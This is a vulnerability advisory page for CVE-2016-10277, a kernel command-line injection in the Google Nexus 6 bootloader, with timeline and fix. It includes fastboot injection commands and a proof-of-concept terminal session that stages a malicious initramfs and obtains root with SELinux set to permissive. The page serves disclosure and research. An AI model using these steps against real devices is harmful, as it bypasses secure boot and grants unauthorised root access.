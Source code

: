 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'release'
      date: '2017-05-23'
    - type: 'vendor-advisory'
      date: '2017-05-01'
    - type: 'add'
      date: '2017-03-01'      
    - type: 'report'
      date: '2016-12-21'
      
alephid: ALEPH-2017011
date: '2017-05-23'
severity: 'critical'
product: 
    - Google Nexus 6
vulnerable: 
    - Android 7.1.1 N6F26Y and earlier.
mitigation:
    - Install Android 7.1.1 N6F27C or later.
cve: 'CVE-2016-10277'
title: 'Google Nexus 6 Kernel Command-line Injection Secure Boot Bypass'
references:
    - src: "Google's Advisory (May 2017)"
      url: 'https://source.android.com/security/bulletin/2017-05-01#eop-in-motorola-bootloader'
    - src: 'Factory Images for Nexus and Pixel Devices'
      url: 'https://developers.google.com/android/images'
---
```

Nexus 6's `ABOOT` (Applications Bootloader) contains several arguments that can be controlled through the fastboot interface, even if the bootloader is locked:

```xml
$ fastboot oem config
[...]
(bootloader) <UTAG name="battery" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     Battery detection control
(bootloader)     ("meter_lock" or "no_eprom")
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="bootmode" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     To force certain bootmode
(bootloader)     (valid values are "fastboot", "factory", "bp-tools", "q
(bootloader)     com", and "on-device-diag")
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="carrier" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     Carrier IDs, see http://goo.gl/lojLh3
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="console" type="str" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     Config kernel console log
(bootloader)       enable|true     - enable with default settings
(bootloader)       disable|false   - disable
(bootloader)       <config string> - enable with customized settings
(bootloader)       (e.g.: "ttyHSL0", "ttyHSL0,230400,n8")
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.048s]
finished. total time: 0.048s
```
The `fsg-id`, `carrier` and `console` parameters can contain arbitrary values, which eventually propagate to the kernel command line.
Now, if the bootloader didn't sanitize these arguments, one could pass arbitrary kernel command line arguments:

```terminal
$ fastboot oem config console "a foo=0 "
$ fastboot oem config fsg-id "a bar=1"
$ fastboot oem config carrier "a baz=2"
```

And indeed, in build `N6F26Y` and earlier:
<div class="language-terminal highlighter-rouge"><pre class="highlight"><code>shamu:/ $ dmesg | grep command
[    0.000000] Kernel command line: <span class="kv">console</span>=<span class="nc">a foo=0 </span>,115200,n8 earlyprintk 
<span class="kv">androidboot.console</span>=<span class="nc">a foo=0 </span> androidboot.hardware=shamu msm_rtb.filter=0x37
ehci-hcd.park=3 utags.blkdev=/dev/block/platform/msm_sdcc.1/by-name/utags
utags.backup=/dev/block/platform/msm_sdcc.1/by-name/utagsBackup coherent_pool=8M
vmalloc=300M buildvariant=user androidboot.bootdevice=msm_sdcc.1 androidboot.serialno=ZX1G427V97
androidboot.baseband=mdm androidboot.version-baseband=D4.01-9625-05.45+FSG-9625-02.117
androidboot.mode=normal androidboot.device=shamu androidboot.hwrev=0x83A0
androidboot.radio=0x7 androidboot.powerup_reason=0x00004000 androidboot.bootreason=reboot
androidboot.write_protect=0 restart.download_mode=0 <span class="kv">androidboot.fsg-id</span>=<span class="nc">a bar=1</span>
androidboot.secure_hardware=1 androidboot.cid=0xDE androidboot.wifimacaddr=F8:CF:C5:9F:8F:EB
androidboot.btmacaddr=F8:CF:C5:9F:8F:EA mdss_mdp.panel=1:dsi:0:qcom,mdss_dsi_mot_smd_596_QHD_dualmipi0_cmd_v0
androidboot.bootloader=moto-apq8084-72.02 <span class="kv">androidboot.carrier</span>=<span class="nc">a baz=2</span> androidboot.hard&lt;
</code></pre>
</div>

## Proof-of-Concept ##

A root exploit is demonstrated]. PoC is available at our [GitHub research repo](https://github.com/alephsecurity/research/tree/master/initroot). 
The following shows a successful attack:

```terminal
$ adb root
adbd cannot run as root in production builds

$ adb shell
shamu:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:shell:s0
shamu:/ $ getenforce
Enforcing
shamu:/ $ setenforce permissive
setenforce: Couldn't set enforcing status to 'permissive': Permission denied
shamu:/ $ reboot bootloader

$ fastboot getvar unlocked
[...]
unlocked: no
finished. total time: 0.008s

$ fastboot oem config fsg-id "a initrd=0x11000000,1518172"
[...]
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0x11000000,1518172
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.016s]
finished. total time: 0.016s

$ fastboot flash aleph malicious.cpio.gz
[...]
target reported max download size of 536870912 bytes
sending 'aleph' (1482 KB)...
OKAY [  0.050s]
writing 'aleph'...
(bootloader) Not allowed in LOCKED state!
FAILED (remote failure)
finished. total time: 0.054s

$ fastboot continue
[...]
resuming boot...
OKAY [  0.007s]
finished. total time: 0.007s

$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
shamu:/ # getenforce
Enforcing
shamu:/ # setenforce permissive
shamu:/ # getenforce
Permissive
shamu:/ #
```
